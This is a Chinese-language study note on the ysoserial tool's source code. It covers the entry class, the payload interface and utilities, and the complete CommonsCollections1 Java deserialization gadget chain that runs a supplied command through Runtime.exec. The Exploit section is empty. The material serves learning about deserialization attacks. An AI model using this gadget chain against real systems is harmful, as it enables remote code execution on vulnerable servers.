



# ysoserial 源码学习

知识点列表：

1. `System` 类下的 `err` 和 `out` 等属性。
    详见：https://blog.csdn.net/qq_51372098/article/details/113408678
2. 泛型：详见白马程序员。
3. Reflections 反射工具库
    Reflections 通过扫描 classpath，索引元数据，并且允许在运行时查询这些元数据。
4. `SecurityManager`
    https://www.souyunku.com/965.html
    用于一些权限的处理，可以用于写一些小 waf 来屏蔽一些操作和方法。
5. `ClassLoader`
    [双亲委派机制](https://javaguide.cn/java/jvm/classloader.html#%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B)
6. 

## 1. 入口类

1. 查看 pom.xml，找到 maven 组件 maven-assembly-plugin，可知入口类：
    ```xml
    <plugin>
        <artifactId>maven-assembly-plugin</artifactId>
        <configuration>
            <finalName>${project.artifactId}-${project.version}-all</finalName>
            <appendAssemblyId>false</appendAssemblyId>
            <archive>
                <manifest>
                    <mainClass>ysoserial.GeneratePayload</mainClass>
                </manifest>
            </archive>
            <descriptor>assembly.xml</descriptor>
        </configuration>
        <executions>
            <execution>
                <id>make-assembly</id>
                <phase>package</phase>
                <goals>
                    <goal>single</goal>
                </goals>
            </execution>
        </executions>
    </plugin>
    ```

    可以看到入口类为 `ysoserial.GeneratePayload`，那么跟进分析。

2. 源代码和注释如下：
    ```java
    package ysoserial;
    
    import java.io.PrintStream;
    import java.util.*;
    
    import ysoserial.payloads.ObjectPayload;
    import ysoserial.payloads.ObjectPayload.Utils;
    import ysoserial.payloads.annotation.Authors;
    import ysoserial.payloads.annotation.Dependencies;
    
    @SuppressWarnings("rawtypes")
    public class GeneratePayload {
    	private static final int INTERNAL_ERROR_CODE = 70;
    	private static final int USAGE_CODE = 64;
    
    	public static void main(final String[] args) {
            // ysoserial 只接收两个参数
    		if (args.length != 2) {
                // 打印使用说明
    			printUsage();
    			System.exit(USAGE_CODE);
    		}
            // 传入的 payload，其实际上是自定义类的 getSimpleName()
    		final String payloadType = args[0];
            // 第二个参数是想要传入的命令
    		final String command = args[1];
    
    		final Class<? extends ObjectPayload> payloadClass = Utils.getPayloadClass(payloadType);
    		if (payloadClass == null) {
    			System.err.println("Invalid payload type '" + payloadType + "'");
    			printUsage();
    			System.exit(USAGE_CODE);
    			return; // make null analysis happy
    		}
    
    		try {
    			final ObjectPayload payload = payloadClass.newInstance();
    			final Object object = payload.getObject(command);
                // 调用 System.out 标准输出流，也就是默认会打印出来。
    			PrintStream out = System.out;
                // 以上完成了攻击类的生成，接下来对其序列化
    			Serializer.serialize(object, out);
                // 对可以 ReleaseableObject 的对象进行一个处理，目前只有两个 Payload 涉及到，暂时不看他
    			ObjectPayload.Utils.releasePayload(payload, object);
    		} catch (Throwable e) {
    			System.err.println("Error while generating or serializing payload");
    			e.printStackTrace();
    			System.exit(INTERNAL_ERROR_CODE);
    		}
    		System.exit(0);
    	}
    
    	private static void printUsage() {
            // 第一次见到打印 error
    		System.err.println("Y SO SERIAL?");
    		System.err.println("Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'");
    		System.err.println("  Available payload types:");
    
            // 这里用到了 ObjectPayload 类和其工具类
    		final List<Class<? extends ObjectPayload>> payloadClasses =
    			new ArrayList<Class<? extends ObjectPayload>>(ObjectPayload.Utils.getPayloadClasses());
    		Collections.sort(payloadClasses, new Strings.ToStringComparator()); // alphabetize
    
            final List<String[]> rows = new LinkedList<String[]>();
            rows.add(new String[] {"Payload", "Authors", "Dependencies"});
            rows.add(new String[] {"-------", "-------", "------------"});
            for (Class<? extends ObjectPayload> payloadClass : payloadClasses) {
                 rows.add(new String[] {
                    payloadClass.getSimpleName(),
                    Strings.join(Arrays.asList(Authors.Utils.getAuthors(payloadClass)), ", ", "@", ""),
                    Strings.join(Arrays.asList(Dependencies.Utils.getDependenciesSimple(payloadClass)),", ", "", "")
                });
            }
    
            final List<String> lines = Strings.formatTable(rows);
    
            for (String line : lines) {
                System.err.println("     " + line);
            }
        }
    }
    
    ```

3. 先来看看 `printUsage()`，发现一个自定义的类 `ObjectPayload`，且调用了其内部工具类的 `getPayloadClasses`，跟过去看一下这个类的详情：
    
    
    可以看出，其是所有 payload 的抽象父接口，其定义了一个泛型 `T getObject()` 用于获取 payload 链条。同时内部有一个工具类 `Utils`（第一次接触到内部工具类)。来看一下其工具类的 `getPayloadClasses()`：

    ```java
    // get payload classes by classpath scanning
    public static Set<Class<? extends ObjectPayload>> getPayloadClasses () {
        // 引入 Reflections 反射工具
        final Reflections reflections = new Reflections(ObjectPayload.class.getPackage().getName());
        // 获取所有子类，也就是所有的链条类
        final Set<Class<? extends ObjectPayload>> payloadTypes = reflections.getSubTypesOf(ObjectPayload.class);
        for ( Iterator<Class<? extends ObjectPayload>> iterator = payloadTypes.iterator(); iterator.hasNext(); ) {
            Class<? extends ObjectPayload> pc = iterator.next();
            if ( pc.isInterface() || Modifier.isAbstract(pc.getModifiers()) ) {
                iterator.remove();
            }
        }
        return payloadTypes;
    }
    ```

    引入 Reflections 反射工具库，也是头一次遇到，不过其总体逻辑还是比较清楚的。

4. 回到 `GeneratePayload#main()`，`printUsage()` 还有自定义的 `Strings` 类用于规范化输出，以及**打印出来的 payload 其实是 ysoserial payload 类的 `class.getSimpleName()`**。到此 `printUsage()` 重要的部分分析完毕，回到 `main()`，接下来看一下 `ysoserial.payloads.ObjectPayload.Utils#getPayloadClass()`，逻辑也是比较简单的：
    ```java
    // 根据传入的 payloadClass.getSimpleName() 来反射生成 Payload
    @SuppressWarnings ( "unchecked" )
    public static Class<? extends ObjectPayload> getPayloadClass ( final String className ) {
        Class<? extends ObjectPayload> clazz = null;
        try {
            clazz = (Class<? extends ObjectPayload>) Class.forName(className);
        }
        catch ( Exception e1 ) {}
        // 如果找不到，尝试用全包名来找，做了一个健壮性处理
        if ( clazz == null ) {
            try {
                return clazz = (Class<? extends ObjectPayload>) Class
                    .forName(GeneratePayload.class.getPackage().getName() + ".payloads." + className);
            }
            catch ( Exception e2 ) {}
        }
        if ( clazz != null && !ObjectPayload.class.isAssignableFrom(clazz) ) {
            clazz = null;
        }
        return clazz;
    }
    ```

5. 小结：

    1. `ObjectPayload` 是所有 payload 的父接口，其内部定义了一个泛型 `T getObject()` 用于获取 payload 链条。同时内部有一个工具类 `Utils`。
    2. 用户输入的 payload 实际上就是其内部定义的 Payload 类的建议类名，因此其直接通过反射创建对应的 payload 类并将想要执行的命令传入。

## 2. Payload

1. ysoserial 主要分为两个部分，即 payload 和 exploit。先从 Payload 入手，以 CC1（`CommonsCollections1`）为例分析一下其代码逻辑：
    ```java
    package ysoserial.payloads;
    
    import java.lang.reflect.InvocationHandler;
    import java.util.HashMap;
    import java.util.Map;
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;
    
    import ysoserial.payloads.annotation.Authors;
    import ysoserial.payloads.annotation.Dependencies;
    import ysoserial.payloads.annotation.PayloadTest;
    import ysoserial.payloads.util.Gadgets;
    import ysoserial.payloads.util.JavaVersion;
    import ysoserial.payloads.util.PayloadRunner;
    import ysoserial.payloads.util.Reflections;
    
    /*
    	Gadget chain:
    		ObjectInputStream.readObject()
    			AnnotationInvocationHandler.readObject()
    				Map(Proxy).entrySet()
    					AnnotationInvocationHandler.invoke()
    						LazyMap.get()
    							ChainedTransformer.transform()
    								ConstantTransformer.transform()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Class.getMethod()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.getRuntime()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.exec()
    
    	Requires:
    		commons-collections
     */
    @SuppressWarnings({"rawtypes", "unchecked"})
    @PayloadTest ( precondition = "isApplicableJavaVersion")
    @Dependencies({"commons-collections:commons-collections:3.1"})
    @Authors({ Authors.FROHOFF })
    public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {
    
        // 这里重写父类 ObjectPayload 的 getObject()，返回值就是
    	public InvocationHandler getObject(final String command) throws Exception {
    		final String[] execArgs = new String[] { command };
    		// inert chain for setup
    		final Transformer transformerChain = new ChainedTransformer(
    			new Transformer[]{ new ConstantTransformer(1) });
    		// real chain for after setup
    		final Transformer[] transformers = new Transformer[] {
    				new ConstantTransformer(Runtime.class),
    				new InvokerTransformer("getMethod", new Class[] {
    					String.class, Class[].class }, new Object[] {
    					"getRuntime", new Class[0] }),
    				new InvokerTransformer("invoke", new Class[] {
    					Object.class, Object[].class }, new Object[] {
    					null, new Object[0] }),
    				new InvokerTransformer("exec",
    					new Class[] { String.class }, execArgs),
    				new ConstantTransformer(1) };
    
    		final Map innerMap = new HashMap();
    
    		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
    
    		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
    
    		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
    
    		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain
    
    		return handler;
    	}
    
    	public static void main(final String[] args) throws Exception {
            // 每个 payload 都有 main，且都需要调用 PayloadRunner.run()
            // 用于直接从本地命令行来执行该 payload，也就是用于测试的
    		PayloadRunner.run(CommonsCollections1.class, args);
    	}
    
    	public static boolean isApplicableJavaVersion() {
            return JavaVersion.isAnnInvHUniversalMethodImpl();
        }
    }
    
    ```

    正如注释所说，分析分为两个方向，一个是其链的构造逻辑，还有一个是其 `main()` 的逻辑。链条的构造一般都比较清楚，最终返回的是整个链条的 kick-off，那么刚接触这个类时，主要的关注点就是这个 `main()` 是做什么的。
    跟进发现其是用于本地测试用的，也就是测试这个链条是否可以成功执行的。这里可以暂时放一下。

2. 那么先来分析一下其链条的主要构造部分，可以看到其用到了 `Gadgets` 这个类，来跟进一下这个类：
    
    工具类，对一些常见部分进行了抽离。
    以 CC1 为例，其涉及到 `AnnotationInvocationHandler` 的动态代理，主要涉及以下代码：

    ```java
    public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";
    
    public static <T> T createMemoitizedProxy ( final Map<String, Object> map, final Class<T> iface, final Class<?>... ifaces ) throws Exception {
        return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
    }
    
    
    // 创建 InvocationHandler，其将反射创建 AnnotationInvocationHandler 进行了工具类抽取
    public static InvocationHandler createMemoizedInvocationHandler ( final Map<String, Object> map ) throws Exception {
        // 又创建了工具类 ysoserial.payloads.util.Reflections 进行 
        return (InvocationHandler) Reflections.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
    }
    
    
    public static <T> T createProxy ( final InvocationHandler ih, final Class<T> iface, final Class<?>... ifaces ) {
        final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class, ifaces.length + 1);
        allIfaces[ 0 ] = iface;
        if ( ifaces.length > 0 ) {
            System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
        }
        // 这里就是 Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        // 用到了 Class.cast()，也是第一次见到这个方法
        return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
    }
    
    ```

    关键的部分已经标注在注释上了，其又自己创建了一个 `Reflections` 工具类，如果自己补充链条的话，确实也可以用上。

## 3. Exploit


